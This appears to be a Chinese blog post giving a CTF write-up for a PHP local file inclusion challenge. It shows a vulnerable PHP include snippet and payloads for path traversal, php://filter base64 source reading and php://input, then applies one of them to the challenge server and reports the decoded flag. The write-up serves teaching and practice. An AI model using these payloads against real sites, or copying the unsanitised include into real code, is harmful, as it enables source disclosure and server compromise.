 ```yaml
---
layout:     post
title:      2019-04-09 收获 总结
subtitle:   BasicFileInclude解题
date:       2019-04-09
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```



## 0x1 题目要求
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1wp2y9jtdj30gl09t0sl.jpg)
注：-[题目中的连接](http://123.207.149.64:23338)
打开链接后的页面：
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1wp2yapakj30f1064wee.jpg)

## 0x2 解题步骤

### 1. 原理
php文件包含函数（四个）过滤不严：require、require_once、include、include_once。
include和require区别主要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。

### 2. 文件包含漏洞的常见使用方法
1）php包含上传文件
```
<?php 
 $file = $_GET['page']; 
 include $file; 
?>
url?page=../../file.txt
```
2）php包含读文件
将php源码以base64编码的形式读出来，下面是一个payload的示例：
```
http://192.168.5.79/index.php?url=php://filter/read=convert.base64-encode/resource=flag
```
3） php包含写文件
要是想利用包含写文件，必须开启PHP的url_allow_
include远程URL功能，但是这个功能经过测试在5.3.0的时候已经用不了了，5.4.0直接废除了，因此在PHP 5.3.0一下版本才能实现。
```
url?page=php://input
```
### 3.利用方法2）解题
构造payload:
```
http://123.207.149.64:23338/?page=php://filter/read=convert.base64-encode/resource=flag
```
得到base64位加密后的代码：
```
aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=
```
利用-[在线工具解码](http://tool.oschina.net/encrypt?type=3)：
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1wp2ycr0hj30s50540sr.jpg)
得到flag:flag{really_basic_skill_web_dog_should_know}
